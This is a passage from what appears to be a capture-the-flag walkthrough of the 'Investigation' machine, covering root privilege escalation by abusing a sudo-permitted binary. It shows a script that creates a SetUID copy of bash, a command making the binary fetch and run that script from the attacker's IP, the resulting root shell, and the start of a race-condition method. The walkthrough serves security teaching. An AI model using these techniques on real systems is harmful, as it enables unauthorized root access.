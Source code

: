 And I can read `root.txt`:

```

# cd /root
# cat root.txt
e9f2ff77************************

```

#### Bash [Option 2]

Ippsec pointed out to me that `perl script.sh` will respect the shebang line of the script. So if `script.sh` starts with `#!/bin/bash`, `perl` will pass that off to `bash` for execution. That means that I can create `shell.sh` that will create a SetUID copy of `bash`:

```

#!/bin/bash

cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf

```

Running this the same way works:

```

smorton@investigation:~$ sudo binary 10.10.14.6/shell.sh lDnxUysaQn
Running... 
smorton@investigation:~$ /tmp/0xdf -p
0xdf-5.0# 

```

#### Race Condition [Option 3]

It’s also possible to exploit a race condition to abuse this binary. It gets the binary and writes the file, then does some calculations of string length and builds a string, and then calls `system` to run that string. Between the `curl` and the `system` calls, because it’s saving in the current directory, if that directory is one that my current user owns, I can move files even if I don’t own them and can’t write to them.

To illustrate this, I’ll listen with `nc` on 80 rather than a Python webserver. When I run the binary, it connects, leaving it in a hung state waiting for the server to respond. At this point, the output file exists and is empty:

```

smorton@investigation:~$ ls -l lDnxUysaQn 
-rw-r--r-- 1 root root 0 Apr 18 20:44 lDnxUysaQn

```

I can’t write to it, but I can move it:
